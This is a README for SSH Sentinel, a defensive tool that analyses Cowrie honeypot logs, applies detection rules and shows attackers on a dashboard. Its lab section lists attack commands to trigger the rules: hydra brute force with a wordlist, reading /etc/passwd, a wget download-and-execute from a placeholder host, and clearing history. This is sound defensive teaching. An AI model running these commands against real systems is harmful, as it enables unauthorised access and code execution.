

# SSH Sentinel

SSH Sentinel turns the raw log of an SSH honeypot into something a person can understand:
who attacked, from where, with which passwords, what they did after getting in, and which
behaviours look dangerous. It collects the events, stores them, detects attack patterns,
locates the attackers on a map, and shows everything on a web dashboard.



## Key ideas

**Honeypot.** A fake server that nobody legitimate has a reason to use. Any connection to it is
suspicious, so everything an attacker does there can be recorded safely.

**Cowrie.** A ready-made, open-source SSH honeypot (https://github.com/cowrie/cowrie). It
listens on port 2222, lets attackers "log in", gives them a *fake* shell (the answers to `ls`,
`whoami`... are invented, nothing real is ever touched) and writes every action to a JSON log.
Cowrie only records. **SSH Sentinel is the layer on top that makes sense of the recording.**

## How it works

```
Attacker ──ssh──► Cowrie honeypot (:2222) ──► cowrie.json log
                                                   │
        collector  ── reads only the NEW lines, masks + hashes passwords
                                                   ▼
        SQLite database ── attacks, sessions, alerts, ip_geo
                                                   │
        detection engine ── 11 rules ──► alerts    │   geolocation ── country / city / coordinates
                                                   ▼
        Flask API ──► dashboard (map, charts, alerts) · CSV export · Markdown report
```

`python run.py` runs the whole chain in a loop, so nothing has to be started by hand.

## Quick start

```bash
pip install -r requirements.txt
python run.py demo        # fake attacks, no honeypot needed -> http://127.0.0.1:5000
```

`demo` writes a realistic fake Cowrie log (reserved documentation IP addresses, invented
locations), analyses it and opens the dashboard marked **DEMO MODE**. Use it to rehearse or to
present when no real attacker is around. All 11 detection rules fire in it.

| Command | What it does |
|---|---|
| `python run.py` | live mode: re-analyses the Cowrie log every 15 s and serves the dashboard |
| `python run.py once` | one analysis pass, prints a one-line summary |
| `python run.py demo` | fake data + dashboard |

Useful options: `--log PATH` (Cowrie log), `--interval SECONDS`, `--host 0.0.0.0` (see the
warning below), `--port`, `--config my_config.json` (detection thresholds), `--no-geo` (never
contact the geolocation service), `--no-dashboard`.

## Lab: two machines on the same network

```
┌──────────── SERVER machine ───────────┐          ┌──── ATTACKER machine ────┐
│  Cowrie honeypot      :2222           │ ◄─ ssh ─ │  hydra / ssh / nmap      │
│  SSH Sentinel (this project) :5000    │          │  (e.g. Kali VM)          │
└───────────────────────────────────────┘          └──────────────────────────┘
            e.g. 192.168.56.10                              e.g. 192.168.56.20
```

Keep the lab isolated (host-only or internal network). Never expose a honeypot to the internet
from a machine that holds anything you care about. Only attack machines you own.

### 1. Server machine

Install Cowrie following its own documentation (steps below are the usual ones; check
https://docs.cowrie.org if your version differs):

```bash
sudo adduser --disabled-password cowrie
sudo su - cowrie
git clone https://github.com/cowrie/cowrie && cd cowrie
python3 -m venv cowrie-env && source cowrie-env/bin/activate
pip install -r requirements.txt
bin/cowrie start            # listens on port 2222, logs to var/log/cowrie/cowrie.json
```

Leave the machine's real SSH server on port 22 and keep Cowrie on 2222 so the two never mix.

Then start SSH Sentinel as a normal user and point it at the log:

```bash
export SENTINEL_COWRIE_LOG=/home/cowrie/cowrie/var/log/cowrie/cowrie.json
python run.py
```

The log belongs to the `cowrie` user. If Sentinel prints *"No permission to read ..."*, give your
user read access (for a lab, `sudo setfacl -R -m u:$USER:rX /home/cowrie`) or run Sentinel as
`cowrie`. Open http://127.0.0.1:5000; the top-right light turns green when port 2222 is listening.

### 2. Attacker machine

```bash
nmap -p 2222 192.168.56.10                       # find the "SSH service"
ssh root@192.168.56.10 -p 2222                   # log in by hand (which passwords work depends on Cowrie's userdb)
hydra -l root -P /usr/share/wordlists/rockyou.txt -s 2222 -t 4 ssh://192.168.56.10
```

After a login, type commands to see the detection rules react:

```bash
uname -a ; cat /etc/passwd                       # reconnaissance / credential access
cd /tmp ; wget http://example.invalid/x ; chmod +x x ; ./x     # download_and_execute (critical)
history -c                                       # defense evasion
```

Wait one cycle (15 s) and refresh the dashboard.

### About the map in a LAN lab

Private addresses (192.168.x.x, 10.x.x.x, 127.x ...) have no geographic location, so the attacker
VM appears as **Private network** in the attacker table and in a note under the map; it cannot be
a dot on the map. Real internet attackers (public IPs) are placed on the map. To show a full map
in a presentation use `python run.py demo`.

## Geolocation

Each public IP is looked up **once** through the free ip-api.com service (batch requests) and the
answer is cached in the `ip_geo` table. Things to know:

- Attacker IP addresses are sent to that third-party service. Use `--no-geo` or
  `SENTINEL_GEO=off` to disable it completely (the dashboard then simply shows no map points).
- The free service is HTTP only and limited to 15 batch requests per minute; the code respects this.
  If you are offline, lookups are retried automatically on the next cycle.
- The map is drawn from a bundled world outline (Natural Earth, public domain), so the dashboard
  makes no external requests and works under its strict Content-Security-Policy.

## Detection rules

Rules run per source IP over the stored events (thresholds are in `detection/detection_rules.py`
and can be overridden with `--config`). Alerts are signals for investigation, **not proof of
compromise**, and are deduplicated so re-analysis never creates copies.

| Rule | Triggers when | Severity |
|---|---|---|
| `brute_force` | 5 failed logins in 60 s | medium |
| `rapid_attack` | 10 failed logins in 30 s | high |
| `username_enumeration` | 5 different usernames in 60 s | medium |
| `password_spraying` | the same password on 3+ usernames in 5 min | high |
| `repeated_attacks` | failures in 3+ separate hours (persistent source) | medium |
| `success_after_failures` | a login succeeds after 5+ failures in 10 min | critical |
| `suspicious_commands` | commands matching reconnaissance, credential access, download, execution, persistence, **destruction, defense evasion, cryptomining** | low - high |
| `dictionary_attack` *(new)* | 5 different well-known passwords in 5 min | medium |
| `connection_flood` *(new)* | 20 connections in 60 s (scanner / flood) | medium |
| `download_and_execute` *(new)* | in one session a file is downloaded, then run | critical |
| `distributed_attack` *(new)* | 3+ IPs try the same 3+ username/password pairs in one 10 min period (botnet) | high |

Two design points worth knowing:

- **Passwords are never stored in clear text.** Only a masked form (`h******`) and a short SHA-256
  fingerprint are kept. `dictionary_attack` hashes its wordlist the same way and compares
  fingerprints, so common passwords are recognised without ever recovering a real one.
- `distributed_attack` is the only rule that looks across IPs. Each botnet node can stay under every
  per-IP threshold, yet together they form an obvious pattern.

Tuning example (`my_config.json`): `{"brute_force": {"max_failures": 3, "window_s": 60}}`, then
`python run.py --config my_config.json`. To switch a rule off:
`{"suspicious_commands": {"enabled": false}}` (see `disable_commands.json`).

## Sending alerts to a SIEM

Every new alert can also be forwarded to a SIEM (Wazuh, Splunk, Graylog, Elastic, QRadar...).
It is off by default; turn it on with one option (or the `SENTINEL_SIEM` environment variable):

```
python run.py --siem syslog://192.168.1.50:514        # syslog over UDP, CEF payload
python run.py --siem syslog+tcp://192.168.1.50:514    # syslog over TCP
python run.py --siem https://splunk.lan:8088/services/collector/raw   # JSON over HTTP(S)
python run.py --siem file:/var/log/sentinel-alerts.json   # JSON lines, for Filebeat / Wazuh to read
```

* Each alert is sent **once per target** (tracked in the `siem_sent` table). New alerts go out
  within one cycle (default 5 s); alerts that already exist when you enable it are sent too.
* If the SIEM is down, SSH Sentinel keeps working, prints a warning and retries on the next cycle.
* A message carries the alert type, severity, source IP, country, description, time and status.
  Passwords are never sent. For HTTP targets, put the token in `SENTINEL_SIEM_AUTH`
  (for example `Splunk <hec-token>`).
* **Test without a SIEM:** `python -m siem.listen --port 5514` prints every message it receives;
  start SSH Sentinel with `--siem syslog://127.0.0.1:5514` in another terminal.

## Dashboard and exports

Overview cards, attack timeline (hourly/daily), **attack map and top countries**, targeted
usernames, masked passwords, attackers (click a row to filter by IP), sessions, alerts with a
status workflow (open / investigating / closed / false_positive) and a paginated event viewer with
a per-session timeline. Filters by date and IP apply everywhere. CSV exports (attacks, alerts) have
formula-injection protection and never contain password hashes; `/api/report` produces a Markdown report.

**Security note:** the dashboard has no login. By default it listens on 127.0.0.1 only. Using
`--host 0.0.0.0` makes it reachable from the whole network; do that only on a trusted lab network.

## Project layout

```
run.py                one-command launcher (live / once / demo)
collector/            reads new Cowrie log lines (rotation-safe), masks + hashes passwords
database/             SQLite schema and helpers
detection/            detection rules and the engine that stores alerts
geo/                  IP geolocation with cache (private networks handled offline)
analysis/             statistics (pandas), charts, Markdown report
backend/              Flask API
dashboard/            web UI (Chart.js, offline world map)
demo/                 fake Cowrie log generator
tests/                pytest suite
```

Run the tests with `pytest`.

## Limitations and ideas

- Analysis runs in cycles (default 15 s), not as a true streaming pipeline.
- No dashboard authentication yet.
- Geolocation needs internet access (or a local GeoIP database, not included).
- Possible next steps: Telegram/e-mail alerts, automatic firewall blocking of attacking IPs,
  Docker packaging of Cowrie + Sentinel, PostgreSQL for large datasets.
